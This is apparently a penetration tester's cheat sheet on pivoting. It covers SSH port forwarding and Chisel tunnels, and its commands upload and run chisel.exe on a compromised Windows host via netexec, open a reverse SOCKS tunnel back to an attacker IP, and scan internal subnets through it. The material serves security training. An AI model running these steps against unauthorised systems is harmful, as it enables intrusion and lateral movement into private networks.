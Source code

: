 # Pivoting & Port Forwarding

## Dynamic Port Forwarding with SSH & SOCKS

### Local Port forward using SSH
> Most useful for services that are not available to anything but localhost.
* Forward a single port on the local host to a single port on a remote host.
```bash
ssh -L [local port]:localhost:[remote port] [user]@[$IP]
```
* Forward multiple ports
```bash
ssh -L [local port]:localhost:[remote port] -L [local port]:localhost:[remote port] [user]@[$IP]
```

### Dynamic Port Forwarding using SSH (SSH Tunneling over SOCKS)
* Verify proxychains is set up for Dynamic Port Forwarding
```bash
tail -4 /etc/proxychains4.conf

# meanwile
# defaults set to "tor"
socks4  127.0.0.1 9050
```
* Setup the tunnel over SSH
```bash
ssh -D [localport] [user]@[$IP]
```
* Verify
```bash
proxychains4 -q nxc smb [remote subnet] -u '' -p ''
```

## Pivoting with [Chisel](https://github.com/jpillora/chisel)
### Reverse Tunnel
#### Setup
* Download the appropriate binaries for the target and attack host
* Verify you have command execution on the pivot host
* Upload the appropriate binary to the compromised pivot host:
```bash
# example using netexec
nxc smb $IP -u [user] -p [pass] --put-file ./chisel.exe \\Windows\\Temp\\chisel.exe
```
#### Execution
* Start the server on the attack host
```bash
./chisel server --reverse
```
* Connect the chisel client (on the pivot host) to the server (on the attack host)
```bash
# Example using netexec
nxc smb $IP -u [user] -p [pass] -x 'C:\Windows\Temp\chisel.exe client [attacker IP]:8080 R:socks'
```
* Verify server recieved the connection
```bash
# Example
2022/11/06 10:57:54 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```
* Verify proxychains is setup for the tunnel
```bash
tail /etc/proxychains4.conf

[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5  127.0.0.1 1080
```
* Verify connection
```bash
# Example using netexec
proxychains4 -q nxc smb $IP -u [user] -p [pass] --shares

# or even better, scan the whole subnet
proxychains4 -q nxc smb [subnet]/[CIDR]
```
* Killing chisel on the pivot host
```bash
# Example using netexec
nxc smb $IP -u [user] -p [pass] -X 'Stop-Process -Name chisel -Force'
```
'CTRL-C' to kill the server on the attack host

### Straight Tunnel
* Same setup as the reverse tunnel
* Start the server on the pivot host
```bash
# Example using netexec
nxc smb $IP -u [user] -p [pass] -x 'C:\Windows\Temp\chisel.exe server --socks5'
```
* Connect to the chisel server from our attack host
```bash
sudo chisel client [IP]:[port] socks
```
* Entries in /etc/proxychains4.conf are the same as for the reverse tunnel.
* Verify operation
```bash
sudo proxychains4 -q nxc smb $IP -u [user] -p [pass] --shares
```

